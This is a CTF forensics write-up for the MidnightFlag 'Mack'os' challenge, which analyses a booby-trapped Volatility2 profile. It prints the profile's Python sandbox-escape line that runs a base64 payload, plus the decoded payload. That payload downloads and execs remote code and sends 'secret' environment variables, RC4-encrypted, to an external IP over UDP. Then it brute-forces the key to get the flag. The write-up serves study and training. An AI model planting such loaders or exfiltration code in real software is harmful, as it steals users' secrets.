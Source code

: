 ```yaml
---
layout: Post
format: chall
title: Mack'os
date: 2024-04-27
ctf: MidnightFlag Qualifiers
tags: [volatility, Wireshark]
category: [Forensics]
---
```

# Mack'os

<a class="back-link" href="../../">< Go back</a>

## Description

R : La forensique mémoire avec Volatility2 est ma grande passion, et ce depuis sa sortie en août 2006 ! Récemment, j'ai même participé à un concours d'analyse mémoire sur un chat IRC assez rétro. Même si j'ai eu quelques difficultés à trouver le bon profil à utiliser, un utilisateur nommé "jonas_kahnwald44" a pu m'en fournir un fonctionnel. Maintenant que j'en parle, j'ai remarqué un message inattendu lors de l'exécution de Volatility2 avec ce profil. Pourriez-vous jeter un oeil à cette capture réseau réalisée sur mon serveur d'analyse ?

EN : Memory forensics with Volatility2 has been my great passion since its release in August 2006! Recently, I even participated in a memory analysis contest on a rather retro IRC chat. Although I had some difficulties finding the right profile to use, a user named "jonas_kahnwald44" was able to provide me with a functional one. Now that I mention it, I noticed an unexpected message while running Volatility2 with this profile. Could you take a look at this network capture made on my analysis server?

Author: Abyss Watcher

all files in [resources/](./resources) were provided.

## Challenge

Looking at the network logs from [Mackos.pcap](resources/Mackos.pcap) we see volatility logs in `tcp.stream eq 0` at the end we see some sort of IRC chat logs

```
analyst@forensic_server:~$ cp file_server/good_profile.zip volatility/volatility/plugins/overlays/mac/

analyst@forensic_server:~$ python2 volatility/vol.py -f evidences/mac_dump.raw --profile Macgood_profilex64 mac_version

<c_dump.raw --profile Macgood_profilex64 mac_version
Volatility Foundation Volatility Framework 2.6.1
hello fellow analyst ! just checking a few things do not mind :)
Darwin Kernel Version 13.2.0: Thu Apr 17 23:03:13 PDT 2014; root:xnu-2422.100.13~1/RELEASE_X86_64
analyst@forensic_server:~$
```

The other person executed a python2 script, we can download [good_profile.zip](good_profile.zip) to view what happened, unzipping it and looking at [dwarf.txt.conv.vtypes](dwarf.txt.conv.vtypes) we see:

```python
'custom_element': [0x2, [[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('echo "hello fellow analyst ! just checking a few things do not mind :)" && python2 -c \\'import base64; exec(base64.b64decode("IyEvdXN...Q5NSkpCg=="))\\'')]],
```

We can decode this huge base64 into another python2 program:

```py

# _=((()>[])+(()>[]));
# __=(((_<<_)<<_)*_);
# ___=('c%'[::  ... very long ...  )>[]))))))

# Deciphered:

_=2
__=64
___="https://gist.github.com/hsauers5/491f9dde975f1eaa97103427eda50071/raw/a8f66f1f9e77b2db28bab1328db274f05722b535/rc4.py"

m = types.ModuleType('')
exec(urlopen(___).read().decode('utf-8'), m.__dict__)
k = '%d' % int(time.time())
enc = m.encrypt(
  str(
    [{a:b} for a,b in os.environ.items() if a.lower().startswith('secret')]
  ),
  k
)
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(enc, ('83.84.179.243', 16495))

```

This program steals the users "secret" environment variables trough an websocket, they get encrypted trough the rc4 algorithm (from the gist) and the secret key which is the current timestamp.

Inside wireshark we find the encrypted text that was exfiltrated:

```
0X570X6A0XC50X5F0XDE0XC60X2D0XED0X7A0XF0XD90X850XBD0XC40X2A0XD60XE00X6E0X8A0XCC0X660XDB0XDE0X570X430XD20XB10X700XAC0X200X4A0XE30X4E0X620X5B0XBD0XF60X140XDD0X900XD50X2E0XF00XF90X260X6D0X490X830XAB0X310XAA0X3A0XD10X2A0X490X850X5E0X900XCE0X530X3B0XF40X480XAD0X640X540X550X330X530XF70X6A0XB80XE7
```

We can start by downloading the gist ourselves and trying to find the timestamp used for the key, to do that we can enamble UTC timestamps in wireshark and grab a large range of times, we can quickly bruteforce a batch.

```py
key = 1708172370
    while True:
        result = decrypt(ciphertext, str(key))
        # if key > 1708173370:
        #     break
        if 'secret' in result:
            print(result)
            break
        key += 1
# [{'secret_technique': '  MCTF{my_secret_f0rens1c_tool_is_ripgrep!.!.!}'}]
```
